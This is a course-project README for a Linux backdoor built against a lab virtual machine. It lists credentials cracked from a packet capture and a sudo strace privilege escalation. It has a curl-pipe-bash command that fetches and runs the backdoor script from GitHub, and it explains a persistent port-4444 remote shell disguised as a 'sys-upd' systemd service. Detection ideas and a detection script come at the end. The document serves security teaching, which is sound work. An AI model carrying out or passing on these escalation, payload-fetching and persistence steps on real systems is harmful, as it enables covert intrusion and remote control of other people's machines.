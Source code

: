 # Project

Project File Overview<br><br>
Bash Scripts (Deployed on Target):

- backdoor: Deployment script

- sys-upd: Downloads and executes the server

- sys-upd.service: systemd service unit file

Python Scripts:

- sys.py: Backdoor listener (server side)

- access.py: Client interface (run from attacker machine)

A) how to install it in the week4 virtual machine,

Enable the host to communicate with the VM over port 4444, add this rule in VirtualBox:

Go to Settings > Network > Adapter 1 → click Port Forwarding

Add the following rule:<br>
Name: backdoor-link<br>
Protocol: TCP<br>
Host IP: 127.0.0.1<br>
Host Port: 4444<br>
Guest IP: (leave blank or default)<br>
Guest Port: 4444<br>

___________________________________

ssh into the week4 virtual machine:<br>
User: user<br>
Password: hill<br>

Note: (I analyzed the .pcapng file in Wireshark and identified an HTTP response containing user data. A hashed password for the user user stood out. Using John the Ripper with the rockyou.txt wordlist, I successfully cracked the hash and retrieved the password: hill.)

___________________________________


## Escalate Privileges
To escalate privileges use this command:<br><br>
Command: sudo strace -o /dev/null /bin/bash<br>
Command: cd (Change Directory)<br>
Command: curl -s https://raw.githubusercontent.com/Hussnain-Khan/backdoor/main/Bash/backdoor | bash<br>

___________________________________


Once this done, Clone the reopsitory in your system and navigate from terminal to Python folder directory and run <br>
`python sys.py`

___________________________________

B) how your backdoor works internally

- Our backdoor operates by deploying a persistent listener on the target machine using a Bash script (sys-upd) managed by a systemd service (sys-upd.service). This script opens TCP port 4444 and runs the Python server (sys.py) which continuously listens for incoming connections. 

- When a connection is received, it prompts for a password (week4) to authenticate the client. Upon successful login, the server receives and executes shell commands from the client (access.py) and sends back the results. 

- All communication is socket-based and occurs over the specified port, enabling the attacker to remotely control the host shell in real time while maintaining persistence across reboots.

___________________________________

C) how your backdoor works internally

1. Remote Shell Access

- The sys.py script binds to port 4444 and listens for incoming connections. Once authenticated, it enters a loop waiting for shell commands from the attacker. The command is executed via subprocess.Popen() and results are sent back to the attacker.

2. Persistence

- Persistence is achieved using a systemd service (sys-upd.service). The backdoor is enabled to auto-start on boot using systemctl enable sys-upd, ensuring the listener runs continuously.

3. Configuration to get commands from:

- Commands are received over the network socket (TCP on port 4444). The sys.py server waits for incoming commands from the client and executes them directly.

4. Authentication

- The backdoor requires a password (week4) before allowing shell access. If the password is incorrect, the connection is closed and access is denied.

5. Hiding from Detection

- The backdoor is disguised as a system update script: sys-upd. It is placed in the /root directory and registered as a systemd service with a generic name.. Minimal console output and error handling are included to avoid raising suspicion.

___________________________________

D) ideas on how yourbackdoor could be detected.

- The backdoor can be detected using tools like Wireshark by identifying unusual traffic on port 4444.It may also be exposed through system audits by spotting suspicious services like sys-upd.service or by detecting scripts fetched from GitHub. Security tools or EDRs could flag the listener's behavior of executing remote shell commands.


___________________________________


Bonus points will be awarded for:

Make sure [Escalate Privileges](#escalate-privileges) is done.

A script or program that will detect if the host is infected with your backdoor

Download the detection script<br><br>
curl -s https://raw.githubusercontent.com/Hussnain-Khan/backdoor/main/Bonus/detect_backdoor.sh -o detect_backdoor.sh

Make the script executable <br><br>
chmod +x detect_backdoor.sh

Run the script <br><br>
./detect_backdoor.sh


